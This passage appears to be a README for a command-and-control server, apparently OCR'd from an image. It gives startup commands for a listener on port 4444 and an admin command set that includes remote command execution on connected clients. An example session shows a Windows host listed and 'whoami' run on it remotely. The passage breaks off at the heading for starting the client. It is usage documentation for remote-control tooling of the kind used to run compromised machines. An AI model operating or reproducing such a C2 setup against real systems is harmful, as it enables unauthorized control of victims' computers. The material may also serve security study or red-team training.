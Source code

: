 ```bash
# Default settings (0.0.0.0:4444)
./output/c2_server

# The server will display:
# - Startup information
# - RSA key generation
# - Listening address/port
# - Interactive admin prompt
```

### **Server Admin Commands**

```bash
C2> help                           # Show available commands
C2> clients                        # List all connected clients
C2> info <client_id>               # Show detailed client information
C2> exec <client_id> <command>     # Execute command on specific client
C2> results <client_id>            # Show command results for client
C2> clear <client_id>              # Clear stored results for client
C2> exit                           # Shutdown the server
```

### **Example Server Session**

```bash
🚀 C2 Server Starting...
📍 Binding to 0.0.0.0:4444
🔐 RSA Key Size: 2048 bits
⏰ Heartbeat Timeout: 300 seconds
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
✅ Server listening on 0.0.0.0:4444

🎛️  Admin Interface Ready - Type 'help' for commands

C2> clients
Connected Clients:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
🟢 ACTIVE | DESKTOP-ABC123_user_a1b2c3 | us***@DESKTOP-ABC123 | Windows 11 | Last seen: 2024-01-15 14:30:25 UTC

C2> exec DESKTOP-ABC123_user_a1b2c3 whoami
✅ Command queued for DESKTOP-ABC123_user_a1b2c3: whoami (ID: cmd-uuid-1234)

C2> results DESKTOP-ABC123_user_a1b2c3
Command Results for DESKTOP-ABC123_user_a1b2c3: (1 results)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
1. [14:30:45] Command: cmd-uuid-1234
   Output:
   desktop-abc123\user
```

### **Starting the Client**
